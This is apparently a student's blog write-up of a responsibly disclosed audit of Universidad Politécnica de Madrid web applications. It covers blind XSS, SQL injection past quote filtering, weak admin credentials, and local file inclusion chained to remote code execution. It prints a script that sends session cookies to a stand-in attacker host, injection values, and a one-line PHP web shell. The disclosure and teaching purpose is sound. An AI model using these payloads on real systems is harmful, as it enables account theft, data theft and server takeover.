






During my final degree project, I audited several web applications from my university, the [Universidad Politécnica de Madrid](https://www.upm.es/){:target="_blank"}, and identified hundreds of vulnerabilities, many of which had a critical impact. In this post, I will analyze some of the most interesting findings.


> The complete write-up, along with much more context about the applications and vulnerabilities, can be read [here](https://oa.upm.es/90101/1/TFG_JORGE_CEREZO_DACOSTA.pdf){:target="_blank"} (although it is in Spanish).


## Stealing Teachers' Accounts via Blind XSS


In one of the applications, there are activities where students can submit free-form text that teachers will later review and grade.


These submissions were stored without sanitization in the database and rendered in the teacher’s panel without any output validation. This allowed any student to inject and execute JavaScript code in the teacher’s browser (i.e., via `<script>` tags) when they inevitably viewed the submission.


As the session cookie did not have the `HttpOnly` attribute, it could be obtained and exfiltrated using JavaScript (`document.cookie`). So, a submission with the following content could have been used to steal teachers’ accounts by exfiltrating their session cookie to the attacker’s server:


```html
<script>
  fetch('https://attacker.poc/?cookie='+encodeURIComponent(document.cookie))
</script>
```





## SQL Injections Everywhere


Multiple SQL injections were found; most parts of the application that used a GET or POST parameter for database operations did so insecurely.


One case stood out, as it was one of the few with some sort of validation.


It was present in a form used to query a student’s group identifier using their enrollment number and national ID, with the following validations:
* The national ID had both single and double quotes removed.
* The enrollment number length was enforced to be exactly 6 characters.


The server used the following query:


```sql
SELECT g.groupNumber
FROM group g
INNER JOIN student_has_group ag ON ag.groupId_ag = g.groupId
INNER JOIN student a ON a.studentId = ag.studentId_ag
INNER JOIN group_has_course gc ON g.groupId = gc.groupId_gc
WHERE gc.courseId_gc = '$courseId'
  AND a.enrollmentNumber = '$enrollmentNumber'
  AND a.nationalId = '$searchNationalId'
  AND g.enroll_group = 1
GROUP BY groupNumber DESC
```


The validation might appear sufficient; however, the following values for national ID and enrollment number, respectively, still satisfied those constraints.


- `=2 OR 1=1-- -`
- `'OR ''`


Generating a query like the following:


```sql
SELECT g.groupNumber
FROM group g
INNER JOIN student_has_group ag ON ag.groupId_ag = g.groupId
INNER JOIN student a ON a.studentId = ag.studentId_ag
INNER JOIN group_has_course gc ON g.groupId = gc.groupId_gc
WHERE gc.courseId_gc = '$courseId'
  AND a.enrollmentNumber='' OR ''' AND a.nationalId='=2 OR 1=1-- -'
  AND g.enroll_group=1
GROUP BY groupNumber DESC
```


Because the injection occurs in the enrollment number, it injects an "OR" operator whose effective contents become `'' AND a.nationalId=` due to SQL’s quote-doubling escape, allowing arbitrary SQL to be injected in the national ID position without using quotes in that field.


From here, UNION-based extraction recovered data for any student or even administrator account.


For example, the following national ID and enrollment number values returned complete student records:





Similarly, administrator data could be extracted:





## Weak Credentials in the Admin Portal


The admin portal managing all audited applications was protected by weak credentials, such as `admin:admin`.


This could have allowed an external attacker to take control of the data across all applications.


## Remote Code Execution via Local File Read


While reviewing the code of one of the applications, a PHP file containing the following code caught my attention:


```php
<body>
<div id="outer">
  <div id="header">
    <?php include "header.php" ?>
  </div>
  <div id="content">
    <?php include $_GET['view'] ?>
    <div class="clear"></div>
  </div>
  <?php include "footer.php" ?>
</div>
</body>
```


This file was part of the admin portal, yet it was accessible without any authentication.


In PHP, the `include` expression includes and evaluates the specified file.


As the value of the view parameter was taken directly from the user-controlled `$_GET` input, an external attacker would be able to load local files from the server.





Sensitive files with PII of hundreds of students were accessible, leaking names, national IDs, enrollment numbers, and more information dating back to 2016:





> Later, it was discovered that those files were also being served publicly without any restrictions, so any user who knew or guessed their route could access them directly.


While LFR enables file access, any PHP embedded in the included file will also execute, turning the Local File Read into code execution if attacker-controlled content exists at a known path.


In another audited application, the profile picture upload feature stored images in predictable locations that were publicly accessible through user profiles. Although content-type checks prevented these images from executing PHP code when accessed directly, using the vulnerable view parameter to include them forced the server to interpret the file as PHP code.


So, after uploading the following avatar, which would be stored on the server at `/var/www/html/draco/images/avatares/104.jpg`:


```php
<?php echo system($_REQUEST["cmd"]);?>
```


Requesting the vulnerable `layout.php` file with `view=/var/www/html/draco/images/avatares/104.jpg` and `cmd=whoami` would execute the command `whoami` on the server and include its output in the response, demonstrating Remote Code Execution.





## Conclusion


I hope the different scenarios were interesting.


Thanks to the Universidad Politécnica de Madrid, and especially to my teacher, José Luis Fuertes Castro, for the opportunity and supporting a responsible disclosure process.


If you have any questions about any of the attacks, feel free to reach out.